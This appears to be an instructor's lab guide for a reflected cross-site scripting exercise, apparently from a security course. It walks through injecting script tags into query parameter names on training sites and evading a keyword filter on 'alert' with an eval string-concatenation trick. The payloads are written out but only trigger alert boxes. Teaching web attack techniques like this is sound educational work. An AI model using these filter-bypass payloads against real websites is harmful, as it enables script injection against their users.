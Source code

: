 ![](media/image8.png){width="6.5in" height="4.069444444444445in"}

\- Submit reflected XSS

Discuss with students how "script\>has been replaced by empty space by
backend:\
https://samantha.iscool.com/about?img=dog.jpg\<scrip\>alert()\</script\>

![](media/image9.png){width="6.5in" height="4.069444444444445in"}

Discuss with students what is wrong with the following payload\
https://samantha.iscool.com/about?img=dog1.jpg onerror=\"alert()\";\
by inspecting\
The reflected contents:\
![](media/image10.png){width="6.5in" height="3.7395833333333335in"}

\- Christmas Workshop (Simple HTML Tamperament)

\- Type \<a href=\"https://google.com\"\>Here\</a\>

(Note: Sensitive to exact link)

\- Syndica (Reverse Parameter Web Filter Bypass)

\- Note the unavailability of \"alert\" keyword

\- Attempt search query and observe results

\- Do a search query involving any illegal characters (ie. script)

\- Observe web filter syndica also reflecting parameters

\- Attempt a parameter with bad characters

[[https://dism.edu.sg/search]{.underline}](https://dism.edu.sg/search)?\<script\>alert(\'xss_by_sam_tan\')\</script\>=script\
Or:\
\
[[https://dism.edu.sg/search]{.underline}](https://dism.edu.sg/search)?\<script\>alert(\'xss_by_sam_tan\')\</script\>=script123\
![](media/image11.png){width="6.5in" height="1.8333333333333333in"}

\- Submit, fail, but notice the \"alert\" keyword being filtered to
\"\[redacted\]\"

\- Attempt eval bypass (or any other character encoding escape) to
string the word \"alert\"

[[https://dism.edu.sg/search]{.underline}](https://dism.edu.sg/search)?abc=123\
[[https://dism.edu.sg/search?abc=script]{.underline}](https://dism.edu.sg/search?abc=script)\
![](media/image12.png){width="6.5in" height="1.8333333333333333in"}

[[https://dism.edu.sg/search]{.underline}](https://dism.edu.sg/search)?\<script\>eval(\"a\"+\"lert(\'xss_by_sam_tan\')\")\</script\>=script

https://dism.edu.sg/search?\<script\>eval(\"alert(\'xss_by_sam_tan\')\")\</script\>=script
